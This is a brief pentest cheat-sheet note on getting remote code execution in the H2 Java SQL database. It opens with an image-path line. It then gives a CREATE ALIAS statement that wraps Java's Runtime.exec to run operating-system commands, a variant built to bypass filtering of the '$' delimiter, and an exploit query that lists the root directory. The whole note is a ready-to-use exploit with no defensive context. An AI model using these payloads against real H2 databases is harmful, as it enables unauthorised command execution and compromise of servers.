 # H2 - Java SQL database

Note for H2 RCE.

# Create EXECVE Alias

```
CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }$$;
```

Bypass `$` payload: 

```
CREATE ALIAS EXECVE AS (SELECT 'String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }' FROM dual);
```


# Exploit 

```
SELECT EXECVE('ls /')
```
